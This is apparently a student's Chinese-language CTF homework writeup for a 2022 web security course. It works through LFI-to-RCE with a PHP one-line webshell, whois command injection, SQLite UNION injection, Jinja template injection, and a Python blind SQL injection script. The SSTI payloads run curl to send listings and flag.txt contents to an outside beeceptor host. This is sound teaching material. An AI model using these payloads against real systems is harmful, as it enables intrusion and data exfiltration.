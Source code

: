 # 2022 Computer Security HW9 Writeup - Web

* [HW9 github (Writeup and Payload)](https://github.com/fdff87554/Computer-Security-2022/tree/main/homework/Homework-09)

## Hello from Windows 98 - Lab
* 首先先做頁面的觀察跟嘗試，因為題目有直接給 source code 可以做觀看，因此就觀察一下，可以看到全部共有三個頁面，初始頁面 `/index.php`、接收輸入並且建立 session 的 `say.php` 頁面，還有顯示輸入資料的 `hi.php` 頁面。
* 由於題目跳轉頁面的方式是利用 `page` 這個變數接收檔名去做顯示，因此我們這邊嘗試輸入 `?page=../../../../etc/passwd` 來看看環境是否有 LFI 的漏洞，結果發現可以成功讀取檔案，又因為會建立 session，因此我們可以嘗試利用 seesion file 的 LFI 來做 RCE 的攻擊。
* 首先目標是希望 session file 會記錄到我們希望建立的木馬，因此準備 php 一句話木馬 `<?php system($_GET['cmd']); ?>`，並且利用一開始由 server 給我們的 `Set-Cookie: PHPSESSID=dbf1212bbb92456e2882440743c5914d; path=/` 確定我們檔案的 session_id 是 `dbf1212bbb92456e2882440743c5914d`，準備好 php 木馬 跟有 session file 之後，就利用 `../../../../tmp/sess_dbf1212bbb92456e2882440743c5914d&cmd=ls` 作為我們的 LFI payload 看看能不能列出 files，並如下圖成功取得 shell。
    > 會用 `&` 是因為 url 上面有兩個參數。
    > ![web-lab01-php-oneline-shell](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab01-php-oneline-shell.png)
    > ![web-lab01-php-session-file-LFI](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab01-php-session-file-LFI.png)
    > ![web-lab01-php-session-file-LFI2RCE](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab01-php-session-file-LFI2RCE.png)
* 到這裡就可以直接印出我們的 flag.txt 取得 flag: `FLAG{LFI_t0_rC3_1s_e4Sy!}`
    > ![web-lab01-ans](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab01-ans.png)


## Whois Tool - Lab
* 這題題目的 source code 非常簡單，就是會把我們的輸入 `host` 串接進 `echo 'whois "{$host}" 2>&1;';`，而且有個限制就是字串輸入不能超過 15 個字元，因此我們的目標就是要找出一個可以 bypass 這個限制的 payload。
* 概念很簡單，我們其實不在意 `whois` 的查找，而且我們希望確保我們的 payload 不會被視為 `whois` 的查找，因此我們建構了 payload `"; ls #` 來分別做到，截斷前面的 whois 查找，並且利用 `;` 做到前一個指令結束之後執行 `ls` 並且利用 `#` 註解掉剩下的部分，可以看到我們的 payload 成功執行了 `ls`，並且可以成功看到有 `flag.txt` 的檔案。
    > ![web-lab02-ls](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab02-ls.png)
* 基於上面的概念理論上我們可以直接建構 `"; cat flag.txt #` 這樣的 payload 去印出 flag.txt 來取得 flag，但題目設計的非常人性化，這邊個 payload 剛好卡在大於 15 個字元，為了減少字元的使用，這邊決定利用 `*` 萬用字元來避免長度限制，因為同目錄底下沒有其他 f 開頭的檔案了，因此可以直接利用 `"; cat f* #` 來印出 flag: `FLAG{c0mM4nd_1nj3cT10n_';whoami}`
    > ![web-lab02-ans](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab02-ans.png)
* 那因為我們還知道有其他指令串些的方式如 `&&` 用在前一個指令成功時接著執行的指令，還有 `||` 用在前一個指令失敗時的後一個指令執行的狀況，因此這邊延伸一個 payload 是 `"&& cat f* #`，會是 `&&` 而不是 `||` 的原因是因為 `"` 對 `whois` 指令的截斷，必沒有觸發 `whois` 指令的錯誤 (找不到東西不是一種錯誤，是一種結果)，因此對於我們來說要讓 `cat flag.txt` 被執行到就要利用 `&&` 來達成。
    > ![web-lab02-ans](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab02-ans-more.png)


## Normal Login Panel (Flag 1) - Lab
* 這題只有一個 login page 而且沒有太多的資訊，登入頁面我們開始嘗試 SQL Injection，但因為我們不知道這個頁面會準備怎樣的資訊給我們，因此首先要先確認回顯狀況。
* 這邊提示有給我們有一個 username 是 admin，這邊輸入錯誤的 password 會拿到 `Login faild count: 30` 這個 error message，而其他不存在的 user 則是 `User doesn't exist! Login faild count: xx`。
* 我們嘗試起手的 sql injection 可以看到當輸入 `admin' or 1=1-- #` 看到的不是 `Login faild count: xx` 而是 `User doesn't exist! Login faild count: xx`，因此可以利用 error message 的差異來做到辨識 SQL Injection 的注入狀況。
* 那這邊可以開始利用 `union select` 來猜共有幾個欄位，但這邊改用 `order by` 來猜，概念上是一樣的，在猜到 `admin' order by 5 -- #` 的時候會壞掉就可以知道共有 4 個欄位了。
* 因為現在只有 `Login faild count: xx` 的這個 xx 會把資料回顯在前端，因此現在來確認哪個欄位會把資料顯示在這邊，利用 `admin' union select NULL, NULL, NULL, 'a' -- #` 來確認第四個欄位會把資料回顯在前端。
* 那這個時候要開始猜 DBMS 是哪一種了，理論上會開始猜 table for example `user()` 是 mysql，或者交給我們的 sqlmap 好工具去爆破，那這邊講師有說是 SQLite，因此我們利用 `admin' union SELECT NULL, NULL, NULL, sql FROM sqlite_master WHERE type='table' -- #`，可以看到我們有 `users` 這個 table，裡面分別有 `id`、`username`、`password`、`count`四個欄位。
    > ![web-lab03-list-sql-info](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab03-list-sql-info.png)
* 那我們現在目標是知道 password，因此下 `admin' union SELECT NULL, NULL, NULL, password FROM users -- #` 來從 users 這張表取得 password，可以拿到 flag `FLAG{Un10N_s31eCt/**/F14g_fR0m_s3cr3t}`。

## Normal Login Panel (Flag 2) - Lab
* 登入進去之後可以看到 srouce code，是一份 python template 並且會吃 `greet` 這個參數，並且 `return render_template_string(f"Hello {greet}")`，因此我們可以針對 `greet` 這個參數做 template injection。
    > ![web-lab04-source-code](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab04-source-code.png)
* 先把資料送到 Burp 的 repeater 做資料從送，這邊 encode 可以改成 body encoding 會更好整理重送資料，可以看到不管是把 `greet` 設為 `a` or `{{7*7}}` 會正確回應 `Hello a` or `Hello 49`。
* 因此依照目標是先找到任意一個東西的 class -> `__class__`，因此我們可以利用 `{{[].__class__}}` 來找到 `list` 這個 class，而 `{{[].__class__.__base__}}` 則是 `list` 的 base class，也就是 `object`，有就是回應到所有的 class 的 base 其實都是 object 這邊。
    > ![web-lab04-list-class-base](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab04-list-class-base.png)
* 因此目標是找到可以操作的 system command，因此我們可以利用 `{{[].__class__.__base__.__subclasses__()}}` 來找到所有的 class，因為我們希望操作 `os` 底下的 class，所以找到 `os._wrap_close` 來作為目標，找到之後可以利用 `{{[].__class__.__base__.__subclasses__()[140]}}` 來操作 `os._wrap_close` 這個 class (因為我們再 sublime 中看到他是地 141 個，也就是 list 中 index 的 140 個)。
    > ![web-lab04-list-class-subclasses](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab04-list-class-subclasses.png)
    > ![web-lab04-list-class-subclasses-os](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab04-list-class-subclasses-os.png)
* 從 `__init__` 的 `__global__` 中可以看到 `os.system` (payload: `{{[].__class__.__base__.__subclasses__()[140].__init__.__globals__}}`)，因此我們可以利用 `{{[].__class__.__base__.__subclasses__()[140].__init__.__globals__['system']}}` 來確認 system 能不能用。
    > ![web-lab04-list-class-subclasses-os-ls](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab04-list-class-subclasses-system.png)
* 但因為 python 的 system 不會像 php 一樣回顯，因此用 [beeceptor](https://beeceptor.com/) 來準備一個簡單的 dns 並且用 `curl <dns>` 來送資料出來，顯示 ls 的結果 payload 如下 `{{[].__class__.__base__.__subclasses__()[140].__init__.__globals__['system']('curl https://crazyfirelee.free.beeceptor.com -d "`ls -al`"')}}`，印出 flag 的 payload 如下 `{{[].__class__.__base__.__subclasses__()[140].__init__.__globals__['system']('curl https://crazyfirelee.free.beeceptor.com -d "`cat flag.txt`"')}}`: `FLAG{S1_fu_Q1_m0_b4N_zHU_ru}`。
    > ![web-lab04-list-class-subclasses-system-curl](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab04-list-class-subclasses-system-curl.png)
    > ![web-lab04-list-class-subclasses-system-curl-flag](https://raw.githubusercontent.com/fdff87554/Computer-Security-2022/main/images/web/web-lab04-list-class-subclasses-system-curl-flag.png)

## PasteWeb (Flag 1) - HW
* 這題打開就是一個登入頁面，這邊想看看 source code 發現沒東西可以看，因此直接手動輸入互動一下，可以發現 error message 有兩種，分別是 `Login Failed` 跟 `Bad Hacker!`，觸發情境分別是一般輸入跟 `admin' union select NULL, NULL -- #` 或者其他 sql payload，因此這邊猜測當 injection 有成功的時候 (不確定後端回傳資料狀況，但應該是 return data > 1) 的時候，就會觸發 "Bad Hacker!" 字串，但也可以發現這邊的 return message 並沒有涉及到任何輸入的資料回顯，因此開始利用 Blind SQL Injection 來找出資料庫的資料。
* 這邊我準備了一個 shell 來進行 Binary Search 來查詢資料，我的邏輯如下，首先我需要資料這個 DBMS 底下有哪些 DB，再從這些 DB 中選目標的那個 DB 列出所有的 Tables，並從這些 Tables 中找到所有的欄位，再從所有的欄位中找到所有的資料。
* 這邊的 BinSearch function 如下，為了讓請求更加像真實的請求，我這邊有準備了 chrome 的 headers 來確保請求穩定性。可以看到這邊利用 `"Login Failed"` 作為錯誤的判斷依據，做 BinSearch。
    ```python=
    def BinSearch(target: str, start: int, end: int, step: int, headers: dict, url: str, session: requests.Session()):
        while start < end:
            mid = (start + end) // 2
            data = {
                "username": f"{target} {mid} -- #",
                "password": "password",
                "current_time": str(int(time.time())),
            }
            response = session.post(url, headers=headers, data=data)
            if response.text.find("Login Failed") != -1:
                end = mid
            else:
                start = mid + step
        return start
    ```
* 之後就是依照上面想找的資料邏輯一個一個字元爆破所需要的資料 (包含 flag)，請看 payload.py。最後拿到 flag: `FLAG{B1inD_SqL_IiIiiNj3cT10n}`

## PasteWeb (Flag 2) - HW

## PasteWeb (Flag 3) - HW


---
###### tags: `CyberSec` `Writeup` `2022`

<style>
.navbar-brand::after { content: " × Crazyfire Lee"; }
</style>